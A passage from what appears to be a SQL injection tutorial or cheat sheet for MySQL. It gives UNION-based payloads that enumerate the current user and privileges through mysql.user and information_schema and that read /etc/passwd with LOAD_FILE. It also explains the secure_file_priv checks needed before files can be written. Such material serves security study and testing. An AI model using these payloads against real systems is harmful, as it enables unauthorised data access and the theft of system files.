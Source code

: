 Or with an **UNION**:
```sql
'something' UNION SELECT 1, user(), 3, 4-- 
'something' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```

To get the privileges of the current user, first test if we have superadmin.
```sql
SELECT super_priv FROM mysql.user
'something' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```

If we have many user we can filter them:
```sql
'something' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="<user>"-- 
```

If the query return `Y` we have superuser privileges.

We can also use **INFORMATION_SCHEMA**:
```sql
SELECT sql_grants FROM information_schema.sql_show_grants
'something' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```

> Add `WHERE user="<user>"` whenever is necessary
{: .prompt-tip}

### LOAD\_FILE

This function will allow us to read files. Just with one argument, the file path:
```sql
SELECT LOAD_FILE('/etc/passwd');
'something' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```

## Writing files

In order to write files we need:
- User with **FILE** privilege 
- MySQL global **secure_file_priv** variable not enabled
- Write access to the location we want to write to on the back-end server 

### secure\_file\_priv 

This variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, **NULL** means we cannot read/write from any directory. MariaDB has this set empty by default, meanwhile MySQL uses `/var/lib/mysql-files`{: .filepath}. Some modern configuration has **NULL** value.

To check this variable:
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
'something' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```
